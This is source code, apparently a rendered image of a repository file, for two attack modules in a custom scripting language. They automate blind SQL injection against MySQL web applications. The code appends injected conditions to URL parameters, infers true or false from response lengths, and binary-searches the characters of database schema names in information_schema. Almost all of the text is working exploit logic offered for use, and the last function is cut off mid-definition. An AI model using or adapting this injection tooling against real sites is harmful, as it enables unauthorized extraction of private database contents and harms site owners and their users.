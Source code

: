 MYSQLAttack.wker

```js
#include ATTACKUTILS/SQLAttack.wker

function GetDataBaseNum(url,length,ArgDefalutText){
	return TakeLength(url,ArgDefalutText." and (select count(SCHEMA_NAME) from information_schema.SCHEMATA) >",length);
}
function GetDataBaseLength(url,length,DataBaseindex,ArgDefalutText){
	return TakeLength(url,ArgDefalutText." and (SELECT char_length((SELECT SCHEMA_NAME from information_schema.SCHEMATA limit ".DataBaseindex.",1))) >",length);
}
function GetDataBaseStr(url,length,DataBaseindex,StringIndex,ArgDefalutText){
	return AsciiToChar(dichotomy(url,ArgDefalutText." and (SELECT ascii(SUBSTRING((SELECT SCHEMA_NAME from information_schema.SCHEMATA limit ".DataBaseindex.",1),".StringIndex.",1)))>",length));
}
```

SQLAttack.wker

```js
#include ATTACKUTILS/encryption.wker
function GetRealLength(url){
	res = HttpGet(url,"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0");
	return GetStrLength(res[0]);
}
function JudgeRESEqule(url,length){
	res = HttpGet(url,"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0");
	if(GetStrLength(res[0]) == length){
		return 1;
	}else{
		return 0;
	}
}
function dichotomy(url,sentence,length){
	max = 128;
	min = 0;
	medium = 64;
	while((max-min) > 1){
		if(JudgeRESEqule(url.URLEncode(Enc(sentence.medium)),length) == 1){
			min = medium;
		}else{
			max = medium;
		}
		medium = ToInt((max+min)/2);
	}
	if(JudgeRESEqule(url.URLEncode(Enc(sentence.ToInt(min))),length) == 1){
		return ToInt(max);
	}else{
		return ToInt(min);
	}
}
function TakeLength(url,sentence,length){
	i = 0;
	while(JudgeRESEqule(url.URLEncode(Enc(sentence.i)),length) == 1){
		i = ToInt(i+2);
	}
	if(JudgeRESEqule(url.URLEncode(Enc(sentence.(i-1))),length) == 1){
		return ToInt(i);
	}else{
		return ToInt(i-1);
	}
```